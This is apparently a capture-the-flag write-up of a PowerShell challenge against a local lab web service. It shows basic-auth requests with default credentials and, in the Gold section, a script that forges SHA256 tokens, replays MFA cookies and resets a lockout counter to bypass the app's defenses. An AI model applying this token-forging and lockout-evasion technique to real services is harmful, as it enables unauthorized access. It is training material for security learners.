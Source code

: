
# Objective 10: PowerShell

**Difficultree: 🎄🎄🎄**  
**Location: Front Yard (Act 2), East**

The objective is to interact with a web service using PowerShell.

## Silver 🥈
For easy, the player is guided through different activities to familiarize with PowerShell.


1:
```powershell
type welcome.txt
```

2:
```powershell
Get-Content welcome.txt | Measure-Object –Word
```

3:
```powershell
netstat -an
```

4:
```powershell
Invoke-WebRequest -URI http://127.0.0.1:1225
```

5:
```powershell
$encodedCreds = [System.Convert]::ToBase64String([System.Text.Encoding]::ASCII.GetBytes("admin:admin"))
$basicAuthValue = "Basic $encodedCreds" 
$Headers = @{ Authorization = $basicAuthValue }
Invoke-WebRequest -URI http://127.0.0.1:1225 -Headers $Headers
```

6:
```powershell
foreach ($url in ((Invoke-WebRequest -URI http://127.0.0.1:1225 -Headers $Headers).Links).href){  (Invoke-WebRequest -URI $url -Headers $Headers | Measure-Object –Word).Words  | %{if($_ -match "138"){ Write-Host $url }} }
(Invoke-WebRequest -URI http://localhost:1225/endpoints/13  -Headers $Headers).Content
```

7:
```powershell
(Invoke-WebRequest -URI http://localhost:1225/token_overview.csv  -Headers $Headers).Content
```

8:
```powershell
(Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```

9:
```powershell
$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
$c = New-Object System.Net.Cookie('token',"5f8dd236f862f4507835b0e418907ffc",'/','localhost')
$s.Cookies.Add($c)
(Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```


10:
```powershell
$tok=((Invoke-WebRequest -URI http://localhost:1225/tokens/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Links).href
$c2= New-Object System.Net.Cookie('mfa_token',$tok,'/','localhost')
$s.Cookies.Add($c2)
(Invoke-WebRequest -URI http://localhost:1225/mfa_validate/4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C  -Headers $Headers -WebSession $s).Content
```

11:
```powershell
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("Q29ycmVjdCBUb2tlbiBzdXBwbGllZCwgeW91IGFyZSBncmFudGVkIGFjY2VzcyB0byB0aGUgc25vdyBjYW5ub24gdGVybWluYWwuIEhlcmUgaXMgeW91ciBwZXJzb25hbCBwYXNzd29yZCBmb3IgYWNjZXNzOiBTbm93TGVvcGFyZDJSZWFkeUZvckFjdGlvbg=="))
```

`Correct Token supplied, you are granted access to the snow cannon terminal. Here is your personal password for access: SnowLeopard2ReadyForAction`


**Achievement: [Silver] PowerShell**

## Gold 🥇
Starting with the `token_overview.csv`, the objective is to bypass the security systems of the application.

```
file_MD5hash,Sha256(file_MD5hash)
04886164e5140175bafe599b7f1cacc8,REDACTED
664f52463ef97bcd1729d6de1028e41e,REDACTED
3e03cd0f3d335c6fb50122553f63ef78,REDACTED
f2aeb18f5b3f08420eed9b548b6058c3,REDACTED
32b9401a6d972f8c1a98de145629ea9d,REDACTED
3a79238df0a92ab0afa44a85f914fc3b,REDACTED
49c2a68b21b9982aa9fd64cf0fd79f72,REDACTED
f8142c1304efb9b7e9a7f57363c2d286,REDACTED
706457f6dd78729a8bed5bae1efaeb50,REDACTED
bb0564aa5785045937a35a9fa3fbbc73,REDACTED
4173a7bc22aee35c5fc48261b041d064,REDACTED
198b8bf2cd30a7c7fed464cca1720a88,REDACTED
3a7c8ecffeeadb164c31559f8f24a1e7,REDACTED
288e60e318d9ad7d70d743a614442ffc,REDACTED
87ab4cb29649807fdb716ac85cf560ea,REDACTED
89f3ec1275407c9526a645602d56e799,REDACTED
33539252b40b5c244b09aee8a57adbc9,REDACTED
152899789a191d9e9150a1e3a5513b7f,REDACTED
7cd48566f118a02f300cdfa75dee7863,REDACTED
d798a55fca64118cea2df3c120f67569,REDACTED
6ef5570cd43a3ec9f43c57f662201e55,REDACTED
bf189d47c3175ada98af398669e3cac3,REDACTED
743ac25389a0b430dd9f8e72b2ec9d7f,REDACTED
270aabd5feaaf40185f2effa9fa2cd6e,REDACTED
8b58850ee66bd2ab7dd2f5f850c855f8,REDACTED
6fd00cbda10079b1d55283a88680d075,REDACTED
612001dd92369a7750c763963bc327f0,REDACTED
010f2cc580f74521c86215b7374eead6,REDACTED
29860c67296d808bc6506175a8cbb422,REDACTED
7b7f6891b6b6ab46fe2e85651db8205f,REDACTED
45ffb41c4e458d08a8b08beeec2b4652,REDACTED
d0e6bfb6a4e6531a0c71225f0a3d908d,REDACTED
bd7efda0cb3c6d15dd896755003c635c,REDACTED
5be8911ced448dbb6f0bd5a24cc36935,REDACTED
1acbfea6a2dad66eb074b17459f8c5b6,REDACTED
0f262d0003bd696550744fd43cd5b520,REDACTED
8cac896f624576d825564bb30c7250eb,REDACTED
8ef6d2e12a58d7ec521a56f25e624b80,REDACTED
b4959370a4c484c10a1ecc53b1b56a7d,REDACTED
38bdd7748a70529e9beb04b95c09195d,REDACTED
8d4366f08c013f5c0c587b8508b48b15,REDACTED
67566692ca644ddf9c1344415972fba8,REDACTED
8fbf4152f89b7e309e89b9f7080c7230,REDACTED
936f4db24a290032c954073b3913f444,REDACTED
c44d8d6b03dcd4b6bf7cb53db4afdca6,REDACTED
cb722d0b55805cd6feffc22a9f68177d,REDACTED
724d494386f8ef9141da991926b14f9b,REDACTED
67c7aef0d5d3e97ad2488babd2f4c749,REDACTED
5f8dd236f862f4507835b0e418907ffc,4216B4FAF4391EE4D3E0EC53A372B2F24876ED5D124FE08E227F84D687A7E06C
```

The header leaks already, that the right hand side is a SHA256 hash of the left hand side. Some tests with [CyberChef](https://gchq.github.io/CyberChef/#recipe=SHA2%28%27256%27,64,160%29&input=NWY4ZGQyMzZmODYyZjQ1MDc4MzViMGU0MTg5MDdmZmMK) show, that this is in fact the SHA256 hash of the hex string as found on the left with a linefeed appended.

With that, all tokens can be used for validation.

Calling the token validation service returns, that a "fakeout threshold" is set to 10, in addition a cookie "attempts" is set to the [base64](https://gchq.github.io/CyberChef/#recipe=From_Base64%28%27A-Za-z0-9+/=%27,true,false%29&input=YzI1aGEyVnZhV3dLMDE) of `snakeoil`with an increasing integer appended.

Iterating over all tokens while maintaining the cookie provided access to the production and deployment of the snow cannons.

```powershell
$s = New-Object Microsoft.PowerShell.Commands.WebRequestSession
ForEach ($row in $( Invoke-WebRequest -URI http://localhost:1225/token_overview.csv  -Headers $Headers).Content -split "`r`n"){
  $token=($row -split ",")[0]
  $c = New-Object System.Net.Cookie('token',$token,'/','localhost')
  $s.Cookies.Add($c)
  $string=$token+"`n"                                        
  $hashBytes = $Sha256.ComputeHash([System.Text.Encoding]::UTF8.GetBytes($string))
  $hash = [System.BitConverter]::ToString($hashBytes)                             
  $sha256hash=$hash.toUpper() -replace "-", ""
  $url="http://localhost:1225/tokens/"+$sha256hash                                             
  (Invoke-WebRequest -URI $url -Headers $Headers -WebSession $s).Content
  $tok=((Invoke-WebRequest -URI $url -Headers $Headers -WebSession $s).Links).href
  $c2= New-Object System.Net.Cookie('mfa_token',$tok,'/','localhost')
  $s.Cookies.Add($c2)
  $url="http://localhost:1225/mfa_validate/"+$sha256hash
  $ret=(Invoke-WebRequest -URI $url  -Headers $Headers -WebSession $s)
  $ret.Content |Add-Content -Path l
  $cook=($ret.Headers['Set-Cookie'] -split ";" -split "attempts=")[1]
  $c3= New-Object System.Net.Cookie('attempts',$cook,'/','localhost')
  $s.Cookies.Add($c3)
}
```

`<h1>[+] Success, defense mechanisms deactivated.</h1><br>Administrator Token supplied, You are able to control the production and deployment of the snow cannons. May the best elves win: WombleysProductionLineShallPrevail</p>
`

**Achievement: [Gold] PowerShell**
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTEyMDUyOTk2NTIsMTEyMTkzNTQ4NF19
-->